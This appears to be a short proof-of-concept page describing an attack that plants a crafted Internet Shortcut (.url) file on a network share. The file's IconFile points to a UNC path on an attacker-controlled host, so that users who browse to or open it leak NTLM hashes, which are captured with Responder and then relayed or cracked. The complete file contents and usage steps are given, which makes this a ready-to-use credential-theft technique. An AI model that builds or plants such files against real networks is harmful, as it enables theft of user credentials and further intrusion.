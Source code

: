 This is an attack that takes advantage of a file that is saved on a share, that can be used to dump hashes of users which can be relayed and cracked.


### Proof of Concept
Create a file and have the following in it.

```txt
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\<attacker_ip>\%USERNAME%.icon
IconIndex=1
```

Save this file in a share and open it using the victim user. To execute this you have to make sure that responder is running as this is what you will use to capture hashes.